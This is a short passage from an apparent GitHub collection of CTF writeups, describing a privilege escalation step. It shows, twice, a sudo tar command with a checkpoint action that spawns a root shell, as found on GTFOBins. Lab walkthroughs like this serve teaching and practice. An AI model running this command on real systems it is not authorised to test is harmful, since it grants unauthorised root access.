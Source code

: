 ### ctf


A collection of cool ctfs and their writeups


Type sudo -l and see that we can run tar app as a root. Let's go to gtfobins and get the sudo exploit for tar. If you can't find it, here type:-

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

Once you execute above command, you'll become a root user.

# Privilege Escaltion:-

Type sudo -l and see that we can run tar app as a root.
Let's go to gtfobins and get the sudo exploit for tar.
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
